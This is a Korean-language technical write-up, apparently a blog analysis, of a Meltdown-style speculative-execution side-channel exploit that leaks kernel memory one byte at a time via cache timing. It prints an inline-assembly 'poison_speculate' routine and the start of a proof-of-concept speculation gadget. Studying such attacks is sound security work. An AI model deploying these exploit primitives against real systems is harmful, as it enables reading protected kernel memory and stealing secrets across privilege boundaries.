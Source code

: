 실제로 커널에서 byte를 하나씩 읽어오는 함수입니다.

`val` 변수에 읽어들일 값이 입력되고, `newval`에는  `run_timing_once(ch, addr, &unc)` 함수의 실행 결과가 답깁니다. `run_timing_once`는 앞서 설명했던 `time_read` 함수와 비슷한 기능을 수행합니다. 읽어들일 값을 캐시에 로드한 후, 하나씩 로드해보면서 걸리는 시간을 측정합니다. 그 후 캐시 히트가 가장 많이 발생한 것을 찾아서 반환해줍니다.

다시 `read_byte` 함수를 봅시다. 확률 분포를 이용하여 가장 정확한 값을 계산하여 반환합니다. 확률 분포를 안 쓰고 대략적으로 통계로도 추정할 수 있지만 올바르지 않은 값이 담길 확률도 커집니다. 확률 분포는 이러한 불확실성을 최소화하기 위해 사용된 최적화 기법에 포함됩니다.(Side-channel attack에서는 거의 필수적인 기법입니다.)

```c
extern void poison_speculate(void **, long int *, char (*)[4096]);
asm(
".section .text\n"
".global poison_speculate\n"
"poison_speculate:\n"
"	addq $8*" STR((POISON_SKIP_RATE - 1)) ", %rdi\n"
"	addq $8*" STR((POISON_SKIP_RATE - 1)) ", %rsi\n"
"1:\n"
"	xorl %eax, %eax\n"
"	movq (%rdi), %r15\n"
"	prefetcht0 (%r15)\n"
"	movl (%rsi), %r14d\n"
"	testl %r14d, %r14d\n"
"	jnz 2f\n"
"	movb (%r15), %al\n"
"	shlq $12, %rax\n"
"	incb (%rdx, %rax)\n"
"	addq $8*" STR(POISON_SKIP_RATE) ", %rdi\n"
"	addq $8*" STR(POISON_SKIP_RATE) ", %rsi\n"
"	jmp 1b\n"
"2:	retq\n"
);
```

전처리문에 의해 실제로 실행되는 함수는 아니지만 `poison_speculate` 함수도 분석해봅시다. `movb (%r15), %al` 부분이 커널 메모리를 읽어들이는 부분입니다. 이 명령이 실행되는 과정에서 커널 메모리의 값이 캐시에 올라가게 되고 롤백이 일어납니다. 그 후에 exception이 발생하게 되는 것입니다. 이전 부분에서 `prefetcht0` 명령어를 확인할 수 있는데, 이는 커널 메모리의 값을 L1 캐시에 프리페치시키는 역할을 합니다. exploit의 효율성을 높여주는 코드입니다. (논문 참고)

## PoC 작성

```assembly
specu:
	mfence
	call 1f
	movzbl (%rdi), %eax
	shll $12, %eax
	movq (%rax, %rsi), %rcx
1:	xorps %xmm0, %xmm0
	aesimc %xmm0, %xmm0
	aesimc %xmm0, %xmm0
	aesimc %xmm0, %xmm0
	aesimc %xmm0, %xmm0
	movd %xmm0, %eax
	lea 8(%rsp, %rax), %rsp
	ret
```
